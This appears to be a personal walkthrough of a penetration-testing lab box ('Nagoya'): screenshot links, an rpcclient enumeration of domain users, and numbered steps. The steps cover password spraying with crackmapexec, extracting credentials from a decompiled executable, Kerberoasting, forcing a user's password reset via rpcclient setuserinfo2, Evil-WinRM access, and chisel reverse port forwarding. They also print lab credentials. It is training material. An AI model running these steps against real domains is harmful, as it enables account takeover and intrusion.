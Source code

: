 
![image](https://github.com/user-attachments/assets/2e8337d8-f6cb-4c3a-8816-1129b8263f99)
![image](https://github.com/user-attachments/assets/e4dc7324-0148-41cc-8da8-bf5ca898b0fc)
![image](https://github.com/user-attachments/assets/7e4417b9-0c66-4c08-bf7a-fa4e23f12185)
![image](https://github.com/user-attachments/assets/8909ecd9-97bd-46d6-bab0-d6b0ae65b6da)
![image](https://github.com/user-attachments/assets/186c04c2-f5d7-4c7e-932c-161c77b7b966)
![image](https://github.com/user-attachments/assets/0657932d-f33f-48c9-80e6-c6920e0f8188)
![image](https://github.com/user-attachments/assets/b6bab0fe-71fb-46b2-913b-d5c049eb9a7d)
![image](https://github.com/user-attachments/assets/07737a64-d19f-47b4-8aa3-82809a097b65)
![image](https://github.com/user-attachments/assets/cec77848-63fa-4fb7-84cf-5bcebf20aa96)
![image](https://github.com/user-attachments/assets/0f1fece0-9a28-45d4-8cb2-b444e07041ec)
![image](https://github.com/user-attachments/assets/c7236729-5f98-4faf-89f0-acd63d52dcba)
![image](https://github.com/user-attachments/assets/9654e838-5759-44dc-b974-82b748215a10)
![image](https://github.com/user-attachments/assets/8aa3e6fa-5fd8-416d-80bf-56495445d6b0)
![image](https://github.com/user-attachments/assets/3ea5fbe1-8d05-4308-8c71-55858588a1f9)
![image](https://github.com/user-attachments/assets/c0904506-69f1-403e-9724-af34ea1dbb93)
![image](https://github.com/user-attachments/assets/88527838-2a47-4325-a151-128049d13370)
![image](https://github.com/user-attachments/assets/74f09e31-a604-4c95-8212-b7bd7d969920)
![image](https://github.com/user-attachments/assets/e2ee4dc3-1b0e-4b8a-8205-afad5e452f2a)
![image](https://github.com/user-attachments/assets/84e0b467-ad14-47e7-890c-63af9e5e3f9a)
![image](https://github.com/user-attachments/assets/8b50dfa9-6dff-4d10-ba2e-62a113e7fdac)
![image](https://github.com/user-attachments/assets/b896e409-9b12-4839-abec-18af7d05faac)
![image](https://github.com/user-attachments/assets/8d3db80e-1ec3-4124-be1f-fd7f137598a1)
![image](https://github.com/user-attachments/assets/f7ae538b-e3d7-4656-bd78-1d788d2f09d0)
![image](https://github.com/user-attachments/assets/a1e7d0d5-34de-4d5b-ad5f-9194a25317b3)
![image](https://github.com/user-attachments/assets/869f244f-5491-4cb2-8b6b-52a2602f91f5)
![image](https://github.com/user-attachments/assets/f4a2faa0-ce3a-4c5e-bfc9-a3237940d792)
![image](https://github.com/user-attachments/assets/d09bd766-06bb-43fb-bec1-2876b5b81fdb)
![image](https://github.com/user-attachments/assets/9f71f69b-c8cf-4a26-9e40-fec21b399b29)
![image](https://github.com/user-attachments/assets/0387330d-ec7d-4c89-9b92-a9d55d7fd28c)
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[svc_helpdesk] rid:[0x450]
user:[Matthew.Harrison] rid:[0x452]
user:[Emma.Miah] rid:[0x453]
user:[Rebecca.Bell] rid:[0x454]
user:[Scott.Gardner] rid:[0x455]
user:[Terry.Edwards] rid:[0x456]
user:[Holly.Matthews] rid:[0x457]
user:[Anne.Jenkins] rid:[0x458]
user:[Brett.Naylor] rid:[0x459]
user:[Melissa.Mitchell] rid:[0x45a]
user:[Craig.Carr] rid:[0x45b]
user:[Fiona.Clark] rid:[0x45c]
user:[Patrick.Martin] rid:[0x45d]
user:[Kate.Watson] rid:[0x45e]
user:[Kirsty.Norris] rid:[0x45f]
user:[Andrea.Hayes] rid:[0x460]
user:[Abigail.Hughes] rid:[0x461]
user:[Melanie.Watson] rid:[0x462]
user:[Frances.Ward] rid:[0x463]
user:[Sylvia.King] rid:[0x464]
user:[Wayne.Hartley] rid:[0x465]
user:[Iain.White] rid:[0x467]
user:[Joanna.Wood] rid:[0x468]
user:[Bethan.Webster] rid:[0x469]
user:[Elaine.Brady] rid:[0x46b]
user:[Christopher.Lewis] rid:[0x46c]
user:[Megan.Johnson] rid:[0x46d]
user:[Damien.Chapman] rid:[0x46e]
user:[Joanne.Lewis] rid:[0x46f]
user:[svc_mssql] rid:[0x470]
user:[svc_tpl] rid:[0x471]
user:[svc_web] rid:[0x472]
rpcclient $> queryusergroups 0x452
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x453
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x454
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x455
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x456
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x457
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x458
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x459
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x460
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x461
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x462
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x463
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x464
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x465
        group rid:[0x201] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x466
result was NT_STATUS_NO_SUCH_USER
rpcclient $> queryusergroups 0x467
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x468
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x469
        group rid:[0x201] attr:[0x7]
        group rid:[0x466] attr:[0x7]
rpcclient $> queryusergroups 0x46b
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46c
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
        group rid:[0x451] attr:[0x7]
rpcclient $> queryusergroups 0x46d
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46e
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x46f
        group rid:[0x201] attr:[0x7]
        group rid:[0x46a] attr:[0x7]
rpcclient $> queryusergroups 0x470
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x471
        group rid:[0x201] attr:[0x7]
rpcclient $> queryusergroups 0x472
        group rid:[0x201] attr:[0x7]
rpcclient $> 
```
![image](https://github.com/user-attachments/assets/7ba66983-72c6-42f7-adbc-1cc5d7c9f767)
![image](https://github.com/user-attachments/assets/16956a2e-f97a-47ae-9ef7-3f39dcb955d9)
![image](https://github.com/user-attachments/assets/b5d06cca-83ee-4650-b5a5-02f4f0492012)
![image](https://github.com/user-attachments/assets/0b28c01b-8d3f-4906-a19d-26408855c8d6)
![image](https://github.com/user-attachments/assets/8d914551-5f15-4147-9dbd-22513a77b6da)
![image](https://github.com/user-attachments/assets/63fcf5cf-8627-4316-8eb2-9490d13a5e32)

Take a break.



1. website --> Team --> list of team members --> generate user list

2. brute force SMB (crackmapexec -u users.txt -p rockyou.txt) --> no valid user:password

3. enum4linux-ng --> no useful info

4. crackmapexec SMB again with -p 'nagoya', 'Nagoya', 'nagoya2023', 'Nagoya2023' (website built in 2023)

5. valid creds Andrea.Hayes:Nagoya2023

6. crackmapexec winrm --> fail, crackmapexec rdp --> error --> try nxc rdp --> valid

7. RDP with Andrea.Hayes:Nagoya2023 --> fail

8. smbclient --> get ResetPassword info (.exe and .exe.config)

9. cat ResetPassword.exe.config --> no useful info

10. strings ResetPassword.exe --> no useful info

11. check ResetPassword.exe with dnSpy.exe --> wine dnSpy.exe --> open ResetPassword.exe --> get username svc_helpdesk and password U299iYRmikYTHDbPbxPoYYfa2j4x4cdg

12. svc_helpdesk creds not get into machine

13. cannot find entry point --> try impacket-GetUserSPNs with Andrea.Hayes:Nagoya2023 --> get two usernames: svc_helpdesk and svc_mssql

14. get kerberoast and crack --> svc_mssql password is Service1

15. rpcclient with svc_helpdesk cred --> get domain users and domain groups

16. queryusergroups to check which groups each user is in --> user Christopher.Lewis (0x46c) in 3 groups (domain user, developer and employee groups), all others only in 1 or 2 groups

17.
```
In the rpcclient tool, the setuserinfo function is used to modify user account information on a remote Windows system. The level parameter in this context refers to the level of information detail that you want to modify or retrieve when working with user account data.
Commonly used levels for user account information include:

Level 0: Basic information, such as username and full name.

Level 1: Additional information, including home directory, script path, and profile path.

Level 2: Further information, like password age, privileges, and logon script.

Level 3: Detailed information, including all the above and group memberships.

Level 4: Even more detailed information, including all the above and security identifier (SID).

To set a user's password using the rpcclient tool, you would typically use setuserinfo2 function with a level of 23.

The level parameter corresponds to the level of user information that you're modifying, and for changing passwords, the relevant level is 23. Level 23 includes all the attributes from level 1 (which provides basic user information) and adds the ability to modify the user's password.

The setuserinfo function in rpcclient is typically used to modify user account information, but it might not directly support changing passwords. To change a user's password using rpcclient, the setuserinfo2 function with level 23 is the recommended approach.

The setuserinfo2 function with level 23 allows you to modify password-related information, including changing the user's password. Level 23 includes all the attributes from level 1 and provides the additional functionality to manage passwords.

While some versions of rpcclient might support changing passwords using setuserinfo with certain parameters, it's safer and more consistent to use setuserinfo2 with level 23 for password changes.
```
18. reset Christopher.Lewis password to Password123

19. Evil-WinRM into machine with Christopher.Lewis new password --> get local.txt flag

20. already get svc_mssql username and password from previous steps, directory svc_mssql under C:\Users\ but initial port scan no mssql port 1433 open

21. netstat -ano | findstr LISENTING --> check open ports --> port 1433 is listening

22. port forwarding:
````
# kali machine
chisel server --port 445 --reverse
# target machine
cmd /c chisel.exe <serverIP:port> R:<kali port to forward to>:127.0.0.1:<local port to forward>
chisel.exe client $KaliIP:445 R:1433:127.0.0.1:1433
````
23. 
